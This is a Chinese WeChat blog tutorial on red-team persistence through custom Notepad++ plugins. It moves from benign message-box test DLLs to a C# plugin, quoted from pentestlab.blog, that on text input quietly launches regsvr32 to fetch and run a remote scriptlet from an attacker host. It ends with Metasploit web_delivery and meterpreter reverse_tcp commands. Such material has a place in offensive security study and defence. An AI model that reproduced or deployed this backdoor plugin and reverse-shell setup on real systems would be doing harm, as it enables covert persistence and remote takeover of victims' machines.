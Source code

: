 #  黑客(红队)攻防中利用Notepade++实现权限维持

原创 Flowers aq [ flower安全混子 ](javascript:void\(0\);)

**flower安全混子** ![]()

微信号 flowerx258

功能介绍 一定要离梦想近一点.

____

___发表于_

收录于合集

#红蓝对抗 4 个

#红队 3 个

#权限维持 1 个

前言：已开通交流群可在公众号精选文章进入。

前几天在sechub平台拿到了一个课题

![]()

但是这段时间有点忙所以就没写，等开始写的时候已经过期了，今天就补一篇哈哈 **  
**

 **Notepade++：  
**

![]()

 **  
**

    Notepade++是一款Windows中的免费文本编辑器，其功能非常强大，即可以编辑普通文本内容当作记事本，还可以编辑类似python，Html，C等等的代码所以是很多普通用户，开发者和安全爱好者电脑必不可少的一款工具也是花某平常使用最频繁的一款编辑器 **。  
**

 **自定义插件：  
**

 ** **
而花某最喜欢的就是它的自定义插件功能，可以自己添加非常多的插件用于扩展功能，最重要的是可以不用去官方商城下载官方插件可以使用自己开发的插件，所以就可以利用它实现命令执行和运行脚本等目的。  

 **实操：  
**

  项目1：

  * 

    
    
    https://github.com/npp-plugins/plugintemplate

此项目为不会插件开发的准备了一个模板只需要修改些许代码即可实现自己的测试功能。  

![]()

![]()

  * 

    
    
    https://github.com/npp-plugins/plugintemplate/releases/download/v4.3/pluginTemplate.v4.3.bin.arm64.zip

也可直接下载这个，下载完成后先用VS studio打开"\plugintemplate-master\src\PluginDefinition.h"文件

![]()

31行位置const TCHAR NPP_PLUGIN_NAME的TEXT可以随意起个名字

![]()

![]()

这里的值不能为0，项目存在两个测试内容，改完配置内容再打开"plugintemplate-
master\src\PluginDefinition.cpp"文件  

![]()

添加弹窗测试代码：

  *   *   *   *   * 

    
    
    void pluginInit(HANDLE /*hModule*/){    MessageBox(NULL, TEXT(""), TEXT("test"), NULL);}  
    

然后生成Dll  

![]()

![]()

![]()

随后创建文件夹叫：“rt test” **  
**

![]()

把生成的dll拖进去

![]()

然后找到notepade++的plugins文件夹路径是C:\Notepad++\plugins注：notepade++插件的文件名夹名和dll文件名得是同一个。  

做完这些后我们可以新建一个文本文档去查看效果。

![]()

输入字符成功弹窗。

项目2：

  * 

    
    
    https://github.com/kbilste/NotepadPlusPlusPluginPack.Net

此开发项目对于前面的项目来说开放性更大，对于前者来说它提供的只有2种测试方案，而此开发项目给出开发模板的同时可以在模板内开发出更多的测试代码从而去实现权限维持目的。

![]()

![]()

项目底部也有说明

首先下载项目源码：

![]()

在VS studio选择新建项目：  

![]()

选择类库

![]()

因为项目是C#的所以选择创建C#类库项目

![]()

项目名称输入“rt rest2”

![]()

框架选择要4.5往上要不然错误一堆，创建完毕后点击打开文件

![]()

打开Visual Studio Project Template C#文件下的Main.cs文件  

![]()

![]()

这里的OnNotification部分是供大家自定义的

![]()

测试代码：

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    class Main{    static bool ExecuteOnce = true;    public static void OnNotification(ScNotification notification)    {        if (notification.Header.Code == (uint)SciMsg.SCI_ADDTEXT && ExecuteOnce)        {            MessageBox.Show("rt test2");            ExecuteOnce = !ExecuteOnce;        }    }

   首先在 class Malin下添加上面的static bool ExecuteOnce = true；代码

![]()

然后在自定义部分粘贴其余代码：

![]()

编译生成Dll文件

![]()

和上步同样创建rt test2文件夹拖入生成的dll

![]()

再放到Notepade++的plugins文件夹下创建rt test2.txt文本进行测试

![]()

![]()

成功弹窗。

 **反弹shell：**

pentestlab.blog公开的测试代码：

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    class   Main     {    static   bool   firstRun =  true ;         public   static   void   OnNotification(ScNotification notification)         {             if   (notification.Header.Code == ( uint )SciMsg.SCI_ADDTEXT && firstRun)             {                 string   strCmdText;                 strCmdText =  "/s /n /u /i: http://10.0.0.3:8080/nHIcvfz6N.sct  scrobj.dll" ;                 Process.Start( "regsvr32" , strCmdText);                 firstRun = !firstRun;                 }             }

使用regsvr32命令来注册一个DLL文件，大家可以根据自己的情况去更改  

![]()

MSF：

  *   *   *   *   *   * 

    
    
    use exploit/multi/script/web_deliveryset target 2set payload windows/x64/meterpreter/reverse_tcpset LHOST xxxset LPORT xxxrun

![]()

![]()

 **然后直接用` sessions管理连接进行操作即可。  
`**

`总结：` **`  
`**

 **` `**` 总体来说，Notepade进行权限维持也还是存在局限性的且对于完全没接触过开发的人来说上手难度也还是有的。` **`  
`**

 **`  
`**

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

